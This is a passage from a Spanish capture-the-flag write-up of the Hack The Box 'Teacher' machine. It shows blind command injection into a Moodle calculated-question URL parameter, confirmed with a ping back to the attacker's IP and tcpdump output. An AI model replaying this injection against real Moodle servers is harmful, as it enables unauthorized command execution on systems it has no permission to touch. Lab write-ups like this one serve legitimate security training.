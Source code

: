![""](/assets/images/htb-teacher/teacher-rce.png)

Ahora le damos click en donde dice **Next page** y vemos que en la URL nos parece algo así:

 - http://10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7

De acuerdo con el valor del campo **Answer 1 formula =**, estamos parametrizando la variable **0**. Si ponemos al final de la URL *&0=whoami* no nos va a resultar debido a que no tenemos donde visualizar el resultado del comando; así que nos vamos a tirar un `ping` a nuestra máquina de atacante y nos ponemos en escucha en nuestra interfaz con `tcpdump`, por lo que la uri quedaría:

 - http://10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&0=ping%20-c%201%2010.10.14.24

```bash
❯ tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:32:04.402092 IP 10.10.10.153 > 10.10.14.24: ICMP echo request, id 3559, seq 1, length 64
21:32:04.402199 IP 10.10.14.24 > 10.10.10.153: ICMP echo reply, id 3559, seq 1, length 64
21:32:04.545135 IP 10.10.10.153 > 10.10.14.24: ICMP echo request, id 3561, seq 1, length 64
21:32:04.545169 IP 10.10.14.24 > 10.10.10.153: ICMP echo reply, id 3561, seq 1, length 64
^C
4 packets captured
4 packets received by filter
0 packets dropped by kernel
```
